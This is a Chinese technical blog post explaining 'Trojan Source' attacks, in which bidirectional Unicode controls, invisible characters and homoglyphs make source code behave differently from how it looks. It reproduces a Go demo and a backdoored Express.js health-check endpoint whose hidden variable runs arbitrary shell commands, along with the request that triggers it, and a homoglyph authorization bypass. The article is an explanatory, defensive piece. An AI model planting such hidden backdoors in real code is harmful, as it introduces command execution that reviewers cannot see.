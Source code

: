```yaml
---
layout: post
title: 源代码特洛伊木马攻击
date: 2021/11/19/ 9:2:46
updated: 2021/11/19/ 9:2:46
status: publish
published: true
type: post
---
```


![](../wp-content/uploads/2021/11/il_340x270_pggv.jpg)最近，我们在 Github 的 Code Review 中看到 Github 开始出现下面这个 Warning 信息—— “This file contains bidirectional Unicode text that may be interpreted or compiled differently than what appears below.”也就是说我们的代码中有一些 bidirectional unicode 的文本，中文直译作 “双向文本”，意思是一些语言是从左到右的，而另一些则是是从右到左的（如：阿拉伯语），如果同一个文件里，即有从左向右的文本也有从右向左文本两种的混搭，那么，就叫bi-direction。术语通常缩写为“ **BiDi** ”或“ **bidi** ”。使用双向文本对于中国人来说并不陌生，因为中文又可以从左到右，也可以从右到左，还可以从上到下。


![](../wp-content/uploads/2021/11/1637305049427-1024x329.jpg)


早期的计算机仅设计为基于拉丁字母的从左到右的方式。添加新的字符集和字符编码使许多其他从左到右的脚本能够得到支持，但不容易支持从右到左的脚本，例如阿拉伯语或希伯来语，并且将两者混合使用更是不可能。从右到左的脚本是通过[ISO/IEC 8859-6](https://en.wikipedia.org/wiki/ISO/IEC_8859-6 "ISO/IEC 8859-6")和[ISO/IEC 8859-8](https://en.wikipedia.org/wiki/ISO/IEC_8859-8 "ISO/IEC 8859-8")等编码引入的，通常以书写和阅读顺序存储字母。可以简单地将从左到右的显示顺序翻转为从右到左的显示顺序，但这样做会牺牲正确显示从左到右脚本的能力。通过双向文本支持，可以在同一页面上混合来自不同脚本的字符，而不管书写方向如何。



双向文本支持是计算机系统正确显示双向文本的能力。对于Unicode来说，其标准为完整的 BiDi 支持提供了基础，其中包含有关如何编码和显示从左到右和从右到左脚本的混合的详细规则。你可以使用一些控制字符来帮助你完成双向文本的编排。


好的，科普完“双向文本”后，我们正式进入正题，为什么Github 会出这个警告？Github的官方博客“[关于双向Unicode的警告](https://github.blog/changelog/2021-10-31-warning-about-bidirectional-unicode-text/)”中说，使用一些Unicode中的用于控制的隐藏字符，可以让你代码有着跟看上去完全不一样的行为。


我们先来看一个示例，下面这段 Go 的代码就会把 “Hello, World”的每个字符转成整型，然后计算其中多少个为 1 的 bit。



```
package main

import "fmt"

func main() {
  str, mask := "Hello, World!‮10x‭", 0

  bits := 0
  for _, ch := range str {
    for ch > 0 {
      bits += int(ch) & mask
      ch = ch >> 1
    }
  }
  fmt.Println("Total bits set:", bits)
}
```

这个代码你看上去没有什么 奇怪的地方，但是你在执行的时候（可以直接上Go Playground上执行  –<https://play.golang.org/p/e2BDZvFlet0>），你会发现，结果是 0，也就是说“Hello, World”中没有值为 1 的 bit 位。这究竟发生了什么事？


如果你把上面这段代码拷贝粘贴到字符界面上的 vim 编辑器里，你就可以看到下面这一幕。


![](../wp-content/uploads/2021/11/1637307319589.jpg)


其中有两个浅蓝色的尖括号的东西—— `<202e>` 和 `<202d>` 。这两个字符是两个Unicode的控制字符（注：完整的双向文本控制字符参看 [Unicode Bidirectional Classes](https://www.compart.com/en/unicode/bidiclass)）：


* **U+202E – Right-to-Left Override [RLO]**  

表示，开始从右到左显示，于是，接下来的文本 `10x", 0` 变成了 `0 ,"x01`
* **U+202D – Left-to-Right Override [LRO]**  

表示，开始从左到右显示，于是，`0,"x01` 中的前4个字符`0 ,"` 反转成  `", 0`，于是整个文本成了 `", 0x01`


所以，你在视觉上看到的是结果是—— `"Hello, World!”, 0x01`， 但是实际上是完全是另外一码事。


然后，Github官方博客中还给了一个安全问题 [CVE-2021-42574](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-42574) ——



> 在 Unicode 规范到 14.0 的双向算法中发现了一个问题。它允许通过控制序列对字符进行视觉重新排序，可用于制作源代码，呈现与编译器和解释器执行逻辑完全不同的逻辑。攻击者可以利用这一点对接受 Unicode 的编译器的源代码进行编码，从而将目标漏洞引入人类审查者不可见的地方。
> 
> 


这个安全问题在剑桥大学的这篇论文“[Some Vulnerabilities are Invisible](https://www.trojansource.codes/)”中有详细的描述。其中PDF版的文章中也给了这么一个示例：


通过双向文本可以把下面这段代码：


![](../wp-content/uploads/2021/11/1637308872541.jpg)


伪装成下面的这个样子：


![](../wp-content/uploads/2021/11/1637308847435.jpg)


在图 2 中`'alice'`被定义为价值 100，然后是一个从 Alice 中减去资金的函数。最后一行以 50 的值调用该函数，因此该小程序在执行时应该给我们 50 的结果。


然而，图 1 向我们展示了如何使用双向字符来破坏程序的意图：通过插入**RLI (Right To Left Isolate)***–* **U+2067***，*我们将文本方向从传统英语更改为从右到左。尽管我们使用了减去资金功能，但图 1 的输出变为 100。


除此之外，支持Unicode还可以出现很多其它的攻击，尤其是通过一些“不可见字符”，或是通过“同形字符”在源代码里面埋坑。比如文章“[The Invisible Javascript Backdoor](https://certitude.consulting/blog/en/invisible-backdoor/)”里的这个示例：



```
const express = require('express');
const util = require('util');
const exec = util.promisify(require('child_process').exec);

const app = express();

app.get('/network_health', async (req, res) => {
    const { timeout,ㅤ} = req.query;
    const checkCommands = [
        'ping -c 1 google.com',
        'curl -s http://example.com/',ㅤ
    ];

    try {
        await Promise.all(checkCommands.map(cmd => 
                cmd && exec(cmd, { timeout: +timeout || 5_000 })));
        res.status(200);
        res.send('ok');
    } catch(e) {
        res.status(500);
        res.send('failed');
    }
});

app.listen(8080);
```

上面这个代码实现了一个非常简单的网络健康检查，HTTP会执行 `ping -c 1 google.com` 以及 `curl -s http://example.com` 这两个命令来查看网络是否正常。其中，可选输入 HTTP 参数`timeout`限制命令执行时间。


然后，上面这个代码是有不可见的Unicode 字符，如果你使用VSCode，把编码从 Unicode 改成 DOS (CP437) 后你就可以看到这个Unicode了


![](../wp-content/uploads/2021/11/1637310735683-1024x923.jpg)


于是，一个你看不见的 `πàñ` 变量就这样生成了，你再仔细看一下整个逻辑，这个看不见的变量，可以让你的代码执行他想要的命令。因为，http 的请求中有第二个参数，这个参数可奖在后面被执行。于是我们可以构造如下的的 HTTP 请求：


**http://host:port/network\_health?%E3%85%A4=<any command>**


其中的，%E3%85%A4 就是 `\u3164` 这个不可见Unicode 的编码，于是，一个后门代码就这样在神不知鬼不觉的情况下注入了。


另外，还可以使用“同形字符”，看看下面这个示例：



```
if(environmentǃ=ENV_PROD){
    // bypass authZ checks in DEV
    return true;
}
```

如何你以为 `ǃ` 是 惊叹号，其实不是，它是一个Unicode `╟â`。这种东西就算你把你的源码转成 DOS(CP437) 也没用，因为用肉眼在一大堆正常的字符中找不正常的，我觉得是基本不可能的事。


现在，是时候检查一下你的代码有没有上述的这些情况了……


（全文完）


 


 



**（转载本站文章请注明作者和出处 [酷 壳 – CoolShell](https://coolshell.cn/) ，请勿用于任何商业用途）**



### 相关文章

* [![Web开发人员速查卡](../wp-content/uploads/2011/02/1128-150x150.jpg)](https://coolshell.cn/articles/3684.html)[Web开发人员速查卡](https://coolshell.cn/articles/3684.html)
* [https://coolshell.cn/wp-content/plugins/wordpress-23-related-posts-plugin/static/thumbs/16.jpg](https://coolshell.cn/articles/2439.html)[黑客的价值观](https://coolshell.cn/articles/2439.html)
* [https://coolshell.cn/wp-content/plugins/wordpress-23-related-posts-plugin/static/thumbs/9.jpg](https://coolshell.cn/articles/1957.html)[Web程序的最佳测试数据](https://coolshell.cn/articles/1957.html)
* [https://coolshell.cn/wp-content/plugins/wordpress-23-related-posts-plugin/static/thumbs/11.jpg](https://coolshell.cn/articles/1331.html)[Unicode字符预览表](https://coolshell.cn/articles/1331.html)
* [https://coolshell.cn/wp-content/plugins/wordpress-23-related-posts-plugin/static/thumbs/30.jpg](https://coolshell.cn/articles/3778.html)[敏捷水管工](https://coolshell.cn/articles/3778.html)
* [![分布式系统的事务处理](../wp-content/uploads/2014/01/trade-off-150x150.jpg)](https://coolshell.cn/articles/10910.html)[分布式系统的事务处理](https://coolshell.cn/articles/10910.html)
The post [源代码特洛伊木马攻击](https://coolshell.cn/articles/21649.html) first appeared on [酷 壳 - CoolShell](https://coolshell.cn).